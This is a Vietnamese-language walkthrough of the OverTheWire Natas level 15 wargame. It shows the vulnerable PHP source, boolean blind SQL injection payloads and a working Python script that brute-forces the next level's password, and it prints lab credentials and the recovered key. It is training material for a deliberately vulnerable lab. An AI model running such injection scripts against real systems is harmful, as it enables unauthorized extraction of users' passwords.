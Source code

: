 # Natas Level 15

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas15.natas.labs.overthewire.org**     
**Credential: natas15:*SdqIqBsFcz3yotlNYErZSZwblkm0lrvx***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    
![alt text](Image/Natas15-1.png)

2. Source code:
```PHP
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

-Bài này web chỉ trả về là ```user exitst``` hoặc ```user doesn't exits``` nhưng nó lại có SQLi ở table ```users```    
==>Boolean SQL injection.

-Đầu tiên check xem có user nào tên ```natas16``` tồn tại không ==> Có.

-Giờ ta sẽ append thêm statement ```AND``` và gán sau đó là 1 câu lệnh để tìm mật khẩu nữa, nếu đúng nó trả exits không thì not

-Trước hết cần xác định độ dài của password theo payload sau:

```bash
username=natas16" AND LENGTH(password)>1 -- a
#Thay 1 bằng các number khác cho tới khi tìm được độ dài chính xác
```

==>password length: 32 kí tự.

![alt text](Image/Natas15-2.png)

-Tiếp theo ta cần brute-force từng kí tự trong đó để lấy được password hoàn chỉnh, đầu tiên ta cần biết trang web sử dụng MySQL nên ta sẽ sử dụng ```SUBSTRING``` để trích xuất 1 kí tự từ password đồng thời gói tin chứa vulnarable là gói ```POST```:    

```python
import requests
import string

url = "http://natas15.natas.labs.overthewire.org/"
auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")

CHAR_SET = string.ascii_letters + string.digits
password = ""

for pos in range(1, 32): 
    for char in CHAR_SET:
        payload = f'natas16" AND BINARY SUBSTRING(password,{pos},1)="{char}"-- a'
        r = requests.post(url, auth=auth, data={"username": payload})
        if "This user exists." in r.text:
            password += char
            print(f"[+] {char} is true charector in {pos} of password")
            break
        else:
            print(f"[-] {char} is not true charector in {pos} of password")
        
print(password)
```

==>Ta sẽ lấy được password: ```hPkjKYviLQctEW33QmuXL6eDVfMW4sGo```

### **Note:** ở đoạn script trên có thêm ```BINARY``` trong sql query vì nãy khi mình để payload là:  ```natas16" AND SUBSTRING(password,{pos},1)="{char}"-- a``` các kí tự hoa và thường bị xem như nhau nên cần viết thêm ```BINARY``` để phân biệt chúng.

## 📌 Key: ```hPkjKYviLQctEW33QmuXL6eDVfMW4sGo```